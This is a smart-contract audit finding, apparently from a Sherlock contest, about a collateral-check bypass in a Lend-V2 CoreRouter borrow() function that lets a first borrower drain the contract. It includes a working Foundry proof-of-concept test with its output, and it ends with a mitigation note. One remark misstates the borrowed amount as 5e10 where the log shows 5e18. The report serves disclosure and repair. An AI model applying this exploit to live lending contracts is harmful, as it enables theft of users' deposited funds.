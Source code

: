 Zany Magenta Otter

High

# The first borrower will be able to take funds regardless collateral.

### Summary

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157

```solidity
function borrow(uint256 _amount, address _token) external {
        //...
        LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);
        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;
        require(collateral >= borrowAmount, "Insufficient collateral");
        //...

        IERC20(_token).transfer(msg.sender, _amount);

        //...
}
```

In borrow() function

The function sets borrowAmount = 0 if currentBorrow.borrowIndex == 0.
As a result, the first borrower can bypass the require(collateral >= borrowAmount) check.
This allows the first borrower to drain funds from the CoreRouter contract regardless collateral.


### Root Cause

N/A

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

N/A

### Impact

As attacker steal all tokens of CoreRouter contract, it's critical severity.

### PoC

In TestBorrowing.t.sol

- Add following import

import "forge-std/console2.sol";

- Add following function

```solidity
function test_first_borrow() public {

        address user1 = address(uint160(0x01));
        address user2 = address(uint160(0x02));

        vm.startPrank(deployer);
        (address token, address lToken) = _supply(10e18);
        ERC20Mock(token).mint(deployer, 1e18);
        IERC20(token).transfer(user2, 1e18);
        vm.stopPrank();

        vm.startPrank(user2);
        IERC20(token).approve(address(coreRouter), 1e18);
        coreRouter.supply(1e18, token);
        coreRouter.borrow(3e18, token);
        vm.stopPrank();
        
        vm.startPrank(user1 );
        coreRouter.borrow(5e18, token);
        vm.stopPrank();

        console2.log("token of user 1= ", IERC20(token).balanceOf(user1));
        console2.log("token of user 2= ", IERC20(token).balanceOf(user2));

    }
```

- Run command

forge test --mt test_first_borrow -vv

- Result

Ran 1 test for test/TestBorrowing.t.sol:TestBorrowing
[PASS] test_first_borrow() (gas: 1219109)
Logs:
  token of user 1=  5000000000000000000
  token of user 2=  3000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.55ms (1.71ms CPU time)




**As the results show, user1 borrowed 5e10 without providing any collateral and user2 borrowed more amount than collateral.**


### Mitigation

When currentBorrow.borrowIndex == 0, need to change checking logic.